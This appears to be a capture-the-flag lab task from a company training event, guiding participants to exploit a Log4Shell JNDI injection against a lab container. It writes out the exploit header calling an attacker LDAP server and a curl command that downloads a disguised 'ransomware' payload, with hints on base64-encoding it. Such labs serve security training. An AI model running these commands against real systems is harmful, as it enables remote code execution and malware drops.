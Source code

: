 # Task 5: Drop It Like It’s Hot 🔥

## DESCRIPTION

Now that you’ve set up the malicious server, time to run the exploit.

To do this, you have to make a request to http://sudosingles-optimizer. But you’re going to include a specially crafted header to call back to your malicious LDAP server and execute a command.

In our case, the command will reach out to malicious url and drop a scary payload into the sudosingles-optimizer container.

## DETAILS

The malicious command we want to execute is:

curl PAYLOADDROPPERURL --output /srv/connectioncheck

Where PAYLOADDROPPERURL is the value found in FSSPayloadDropperUrl in the credential field below.

FSSPayloadDropperUrl is a special url that can be used to drop a ransomware payload. When the above command is executed in the container running sudosingles-optimizer, it will drop a nasty file in the /srv directory, disguised as something benign.

Just like before, we’ll make a request to our malicious LDAP server using curl on the attack machine. Open another Terminal Emulator window and run the following command:

curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/PAYLOAD}'

Where PAYLOAD is the malicious command that we crafted above and YOURIP is the attack machine’s private IP.

However, you’ll notice that if you just try to substitute the malicious command for PAYLOAD, then run the whole request to sudosingles-optimizer above, the exploit won’t work. Something is missing...

Maybe you need to encode PAYLOAD somehow? Hm...

When you believe you’ve successfully performed the exploit, click “Verify” to check your work.

## NOTES

No actual ransomware is involved in this challenge, so don’t worry. We’re just having fun here on Tech Day.

## SCORING

Verify -> PayloadCheckerLambda

## HINTS

### HINT 1

/Basic/Command/Base64 might be a hint! And the challenge said to encode... hmm.....

### HINT 2

You need to encode the malicious command as base64, and add it to the ldap url. For example: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/BASE_64_ENCODED_COMMAND}. If that isn’t working for you, triple-check to make sure that you have encoded the malicious command correctly.

### HINT 3

1. Craft the malicious command: curl PAYLOADDROPPERURL --output /srv/connectioncheck
2. Encode it as base64 using any tool. Base64encode.org is a great option.
3. Replace it in the command: curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/PAYLOAD}'
4. Execute
